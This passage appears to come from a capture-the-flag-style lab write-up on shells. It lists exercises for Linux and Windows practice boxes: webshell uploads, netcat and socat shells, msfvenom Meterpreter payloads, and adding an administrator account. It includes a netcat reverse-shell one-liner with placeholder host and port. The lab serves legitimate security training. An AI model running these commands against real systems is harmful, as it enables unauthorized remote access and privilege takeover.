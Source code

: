 The remainder of this task will consist of shell examples for you to try out on the practice boxes.

1. Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.

`No answer needed`

2. Navigate to `/usr/share/webshells/php/php-reverse-shell.php` in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.

`No answer needed`

3. Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.

`No answer needed`

4. Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

`No answer needed`

5. Look through [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and try some of the other reverse shell techniques. Try to analyse them and see why they work.

`No answer needed`

6. Switch to the Windows VM. Try uploading and activating the `php-reverse-shell`. Does this work?

`No answer needed`

7. Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.

`No answer needed`

8. The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.

`No answer needed`

9.  Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.

`No answer needed`

10. Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.

`No answer needed`

11. Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with netcat -- does this work?

`No answer needed`

## Task 14 Linux Practice Box

The box attached to this task is an Ubuntu server with a file upload page running on a webserver. This should be used to practice shell uploads on Linux systems. Equally, both socat and netcat are installed on this machine, so please feel free to log in via SSH on port 22 to practice with those directly. The credentials for logging in are:
